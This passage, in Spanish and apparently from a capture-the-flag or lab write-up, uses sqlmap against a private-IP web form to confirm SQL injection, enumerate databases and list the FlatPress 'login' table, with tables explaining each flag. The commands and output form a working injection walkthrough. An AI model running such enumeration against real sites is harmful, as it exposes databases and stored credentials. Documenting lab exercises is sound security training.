 | Parámetros | Descripción |
|--------------------------|
| *-u*	     | Define la URL objetivo. |
| *--batch*  | Ejecuta el comando sin solicitar confirmaciones al usuario. |
| *--forms*  | Analiza y prueba formularios en la URL objetivo. |

<br>

Sí es vulnerable.

Obtengamos las bases de datos existentes:
```bash
sqlmap -u 'http://192.168.100.70:8080/' --batch --forms --dbs
...
[13:22:10] [INFO] fetching database names
available databases [6]:
[*] FlatPress
[*] information_schema
[*] mysql
[*] Nombres
[*] performance_schema
[*] sys
```

| Parámetros | Descripción |
|--------------------------|
| *-u*       | Define la URL objetivo. |
| *--batch*  | Ejecuta el comando sin solicitar confirmaciones al usuario. |
| *--forms*  | Analiza y prueba formularios en la URL objetivo. |
| *--dbs*    | Enumera todas las bases de datos disponibles. |

<br>

Bien, tenemos todas las bases de datos.

Obtengamos las tablas de la BD de **FlatPress**:
```bash
sqlmap -u 'http://192.168.100.70:8080/' --batch --forms -D 'FlatPress' --tables
...
[13:22:56] [INFO] fetching tables for database: 'FlatPress'
Database: FlatPress
[1 table]
+-------+
| login |
+-------+
```

| Parámetros | Descripción |
|--------------------------|
| *-u*       | Define la URL objetivo. |
| *--batch*  | Ejecuta el comando sin solicitar confirmaciones al usuario. |
| *--forms*  | Analiza y prueba formularios en la URL objetivo. |
| *-D*	     | Selecciona una base de datos especifica a enumerar. |
| *--tables* | Enumera las tablas de una base de datos específica. |

